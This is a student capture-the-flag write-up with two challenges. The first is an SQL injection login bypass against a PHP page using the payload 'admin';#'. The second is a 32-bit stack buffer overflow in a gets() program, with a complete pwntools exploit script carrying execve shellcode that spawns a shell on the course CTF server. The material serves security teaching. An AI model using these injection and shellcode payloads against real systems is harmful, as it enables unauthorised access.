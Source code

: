 # FSI-CTFS: Week #8

## **First Challenge**

**Goal:** Login into the admin account in order to get the flag.

**Program analysis**

We are given the [index.php](Semana8-Desafio1/index.php) file of out website. Let's start by analysing the php code.

```php
if (!empty($_POST)) {

    require_once 'config.php';

    $username = $_POST['username'];
    $password = $_POST['password'];
    
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                            
    if ($result = $conn->query($query)) {
                        
        while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
        $_SESSION['username'] = $data['username'];

        echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
        include "/flag.txt";
        echo "</code>";

        }
    } else {            
        // falhou o login
        echo "<p>Invalid username or password <a href=\"index.php\">Tente novamente</a></p>";
    }
}
```

> Pay attention to this line:
```php 
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
- The query statement is not prepared before being sent to the database! Which means we have a sql injection vulnerability!
- This allows us to exploit the query and access the admin account without the need of a password!

### **Attack**

In order to login into the admin account without a password, all we need to do is remove the password verification from the query. To do that, let's remember that in PHP, to add a comment we use the '#' char.
```php 
# This is a comment in PHP
```
If we insert 'admin';#' in the username field, the password segment of the query will become obsolete!
```php 
$query = "SELECT username FROM user WHERE username = 'admin';#' AND password = '".$password."'";
```
> Let's try it on our vulnerable website! (In the the password field, you can type in anything, as it will be commented out in the PHP code)

![Page](imgs/page1.jpg)

>And then we obtain our flag!

![Flag1](imgs/flag1.jpg)

## **Second Challenge**

**Goal:** Come up with an exploit to the buffer overflow vulnerability on the program running in the CTF server to get shell, in order to get the flag which is located in the working directory.

**Checksec**

- Architecture is x86
- Regions in the memory with RWX permissions
- No Cannary found in the stack
- Stack doesn't have execute permissions (NX -no execute- enabled)
- PIE Enabled - ASLR is enabled

![Terminal screenshot of checksec](imgs/checksec.png)

**Program analysis**

The program enabled ASLR which means now we can't 'hardcode' the memory address we want to overwrite! However, the program prints out the address in which the buffer is located.

**Program**

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

- The vulnerability is present the gets(buffer) function call. This function is known to be very dangerous to use because it is impossible to tell how many characters it will read, without knowing the input in advance.

```
Bugs section of gets man page:

Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```
That means we can cause a **buffer overflow**!

### **Attack**
> Now that we know we have a buffer overflow vulnerability in the gets function, let's figure out what we need to write to the buffer.
- If we want to open a shell, we'll need to write some shellcode into memory and then get our program to execute that shellcode

How can we do that?

We need to overwrite the return addres of the gets function call so it jumps to out shellcode instead! But to that, we need to find what the offset (&buffer - $ebp) is.

> We can achieve that with the help of gdb-peda, which is a Python Exploit Development Assistance for GDB. It add some extra funcionalities to gdb and is very useful to analyse these programs. Find more about it [here](https://github.com/longld/peda).

![Pattern #1](imgs/pattern.jpg)

- We use the pattern function to generate a 120 char pattern to memory to use as input for our program. The goal with this is to try to guess where the return addres is. And as you can see, we got a **SIGSEGV** (Segmentation fault) which means the program crash, which tells us we were able to overwrite our return address and the program wasn't able to exit the gets function as expected. So that means we are a little off on the offset but we now know it is lower that 120.

![Pattern #2](imgs/pattern2.jpg)

- We now use the pattern function to search which tells us that EIP+0 was found at offset: 107
- After testing with offset 107, we found found out it's just off by 1, so the offset is 108

> We now need to build our payload with the help of the following python script:

**Python Scipt**

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:
    p = remote("ctf-fsi.fe.up.pt", 4001)

# -- Shellcode for 32bit i386 -- #
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

# -- Retrives buffer address from the program output -- #
address = p.recvline_contains(b'Your buffer is')[17:25].decode('utf-8')
print("Buffer address: " + address)

# -- Prepares buffer address for the payload -- #
buffer = bytearray.fromhex(address)
buffer.reverse()

# -- Offset found during code analysis with gdb -- #
offset= 108

# -- Payload Construction -- #
payload = shellcode + b'\x90' * (offset -  len(shellcode)) + buffer

print('Sending Payload...')
p.sendline(payload)
p.interactive()

```

Let's explain the script:
- The shellcode is a shellcode for 32bit system
- The next code segment is used to retrieve our buffer address given by the program
- We then prepare that buffer to use in our payload
- After that, we use the offset we previously found using gdb
- And finally, we construct our payload and send it to the server


> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)
